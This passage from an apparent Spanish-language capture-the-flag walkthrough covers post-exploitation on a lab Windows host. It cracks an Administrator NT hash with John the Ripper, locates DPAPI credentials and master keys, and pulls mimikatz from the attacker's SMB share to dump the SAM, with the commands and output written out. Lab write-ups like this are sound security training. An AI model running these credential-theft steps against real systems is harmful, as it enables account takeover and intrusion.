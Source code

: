```powershell

PS C:\Users\Administrator\Documents>
```

Se observa que el hash NT del usuario "Administrator" es diferente al anterior. Utilizando John the Ripper y aplicando fuerza bruta, logramos obtener la contraseña en texto plano.

```bash
❯ john -w:/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash --format=NT  
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 128/128 XOP 4x2])
Press 'q' or Ctrl-C to abort, almost any other key for status
./*40ra26AZ      (?)
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed.
```

Al listar las credenciales en el directorio del Administrador, encontramos dos. Para descifrar las credenciales DPAPI, necesitaremos descargar las master keys que se encuentran en "Protect" dentro de la carpeta que lleva el nombre del SID.

```powershell
PS C:\Users\Administrator\Documents> dir C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Credentials -force  

    Directory: C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Credentials

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-         9/9/2019   3:08 AM            474 1A2572C793495F694F64823A392D4718
-a-hs-         9/9/2019   3:07 AM            474 4A2EEB30EFC7958491B6578D9948EC7F

S C:\Users\Administrator\Documents> dir C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Protect  

    Directory: C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Protect

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d---s-         9/8/2019  12:44 PM                S-1-5-21-4124311166-4116374192-336467615-500

PS C:\Users\Administrator\Documents> dir C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500 -force  

    Directory: C:\VSS\Users\Administrator\AppData\Roaming\Microsoft\Protect\S-1-5-21-4124311166-4116374192-336467615-500

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-         9/9/2019   3:07 AM            468 87790867-a883-4a2d-a467-019c315e1104
-a-hs-         9/8/2019  12:44 PM            468 dc6059f1-5ba2-4186-871a-0ff4055a6875
-a-hs-         9/9/2019   3:07 AM             24 Preferred
```


[dev.htb.local]: PS C:\Users\Administrator\Documents> whoami
[dev.htb.local]: PS C:\Users\Administrator\Documents>
[dev.htb.local]: PS C:\Users\Administrator\Documents> cp \\10.10.14.10\kali\mimikatz.exe .
[dev.htb.local]: PS C:\Users\Administrator\Documents> .\mimikatz.exe 'token::elevate' 'lsadump::sam' exit
[dev.htb.local]: PS C:\Users\Administrator\Documents>